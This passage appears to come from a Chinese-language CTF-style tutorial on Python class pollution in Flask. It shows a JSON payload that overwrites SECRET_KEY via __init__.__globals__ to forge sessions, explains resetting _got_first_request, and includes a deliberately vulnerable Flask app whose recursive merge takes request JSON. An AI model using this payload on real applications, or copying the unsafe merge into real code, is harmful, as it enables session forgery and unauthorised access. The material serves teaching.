 ```plain
    return "[+]Config:%s"%(app.config['SECRET_KEY'])

app.run(host="0.0.0.0")
```

这里我们并无法确定secretkey是什么，所以如果能够污染我们就可以实现任意的session伪造

```plain
{
    "__init__" : {
        "__globals__" : {
            "app" : {
                "config" : {
                    "SECRET_KEY" :"Polluted~"
                }
            }
        }
    }
}
```

### \_got\_first\_request：

用于判定是否某次请求为自`Flask`启动后第一次请求，是`Flask.got_first_request`函数的返回值，此外还会影响装饰器`app.before_first_request`的调用，而`_got_first_request`值为假时才会调用：

所以如果我们想调用第一次访问前的请求，还想要在后续请求中进行使用的话，我们就需要将\_got\_first\_request从true改成false然后就能够在后续访问的过程中，仍然能够调用装饰器app.before\_first\_request下面的可用信息。

```plain
from flask import Flask,request
import json

app = Flask(__name__)

def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

class cls():
    def __init__(self):
        pass

instance = cls()

flag = "Is flag here?"

@app.before_first_request
def init():
    global flag
    if hasattr(app, "special") and app.special == "U_Polluted_It":
        flag = open("flag", "rt").read()

@app.route('/',methods=['POST', 'GET'])
def index():
    if request.data:
        merge(json.loads(request.data), instance)
```